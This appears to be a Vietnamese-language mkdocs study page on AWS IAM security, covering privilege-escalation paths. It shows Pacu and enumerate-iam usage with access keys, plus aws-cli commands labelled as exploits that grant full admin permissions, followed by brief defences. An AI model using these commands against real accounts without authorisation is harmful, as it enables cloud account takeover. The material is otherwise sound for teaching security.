

repository: hieutran2811/synthesize_knowledge · page: security/cloud/aws_security/index.html · generator: mkdocs

---
title: "Cloud Security Deep Dive – AWS"
topic: security
level: mixed
review_status: needs_review
content_updated: 2026-05-06
last_verified: null
version_scope: "unspecified"
source_count: 10
---
# Cloud Security Deep Dive – AWS

> Thuật ngữ: [Glossary](../glossary.md).

> Phương pháp: What – How – Why – Components – Compare – Trade-offs – Real-world – Ghi chú

---

## 1. AWS IAM Security

### What – IAM Security là gì?
IAM (Identity and Access Management) là điểm kiểm soát trung tâm của AWS. Misconfigured IAM = attacker có thể leo thang từ không có gì lên toàn bộ AWS account.

### How – IAM Privilege Escalation

```
IAM Privilege Escalation Paths:
User A có iam:AttachUserPolicy → attach AdministratorAccess policy cho mình
User A có iam:CreatePolicyVersion → tạo version mới với * permissions
User A có iam:SetDefaultPolicyVersion → đặt version có full access làm mặc định
User A có iam:CreateAccessKey → tạo new access key cho existing admin user
User A có ec2:RunInstances + iam:PassRole → launch EC2 với admin role
User A có lambda:CreateFunction + iam:PassRole + lambda:InvokeFunction → create + invoke Lambda với admin role
User A có sts:AssumeRole → assume role khác có quyền cao hơn
```

```bash
# Enumerate IAM permissions (với access key)
# aws-cli
aws iam get-user
aws iam list-attached-user-policies --user-name <user>
aws iam list-user-policies --user-name <user>
aws iam get-policy-version --policy-arn <arn> --version-id v1

# Pacu: AWS exploitation framework
git clone https://github.com/RhinoSecurityLabs/pacu.git
cd pacu && python3 pacu.py

# Trong Pacu:
import_keys                                # import AWS credentials
run iam__bruteforce_permissions             # enumerate all permissions
run iam__privesc_scan                      # find escalation paths

# Enumerate với enumerate-iam (Python)
python3 enumerate-iam.py --access-key AKIA... --secret-key xxx...
# → Test tất cả IAM actions xem cái nào được phép

# Exploit: tạo admin policy version
aws iam create-policy-version \
  --policy-arn arn:aws:iam::123456789:policy/MyPolicy \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":"*","Resource":"*"}]}' \
  --set-as-default

# Exploit: attach admin policy
aws iam attach-user-policy \
  --user-name target_user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Phòng thủ:
# - Least privilege: chỉ grant permissions cần thiết
# - Permission boundaries: giới hạn tối đa của IAM entity
# - SCP (Service Control Policy) ở Organization level
# - Access Analyzer: detect overly permissive policies
# - CloudTrail: log tất cả IAM actions
```
